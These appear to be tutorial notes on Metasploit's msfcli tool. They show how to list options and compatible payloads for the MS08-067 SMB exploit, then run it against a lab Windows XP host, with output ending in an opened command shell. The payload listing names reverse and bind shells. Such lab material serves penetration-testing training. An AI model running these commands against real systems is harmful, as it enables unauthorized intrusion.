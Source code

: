 - useful modes in msfcli

msfcli has some modes built-in to build the final command

- `o` mode shows the selected module's options  
- `P` shows the compatible payloads

- showing options

``` hl_lines="6"
root@kali:~# msfcli windows/smb/ms08_067_netapi O
[*] Please wait while we load the module tree...

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
```

- setting host

```
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10
```

- showing payloads

`P` shows the compatible payloads

``` hl_lines="1"
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 P
[*] Please wait while we load the module tree...

Compatible payloads
===================

   Name                                             Description
   ----                                             -----------
   generic/custom                                   Use custom string or file as payload. Set
                                                      either PAYLOADFILE or PAYLOADSTR.
   generic/debug_trap                               Generate a debug trap in the target process
   generic/shell_bind_tcp                           Listen for a connection and spawn a command
                                                      shell
   generic/shell_reverse_tcp                        Connect back to attacker and spawn a command
                                                      shell
   generic/tight_loop                               Generate a tight loop in the target process
--snip--
```

- setting payloads

```hl_lines="1"
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 PAYLOAD=windows/shell_bind_tcp
[*] Please wait while we load the module tree...

RHOST => 192.168.20.10
PAYLOAD => windows/shell_bind_tcp
[*] Started bind handler ❶
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Command shell session 1 opened (192.168.20.9:35156 -> 192.168.20.10:4444)
    at 2015-08-31 16:43:54 -0400

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```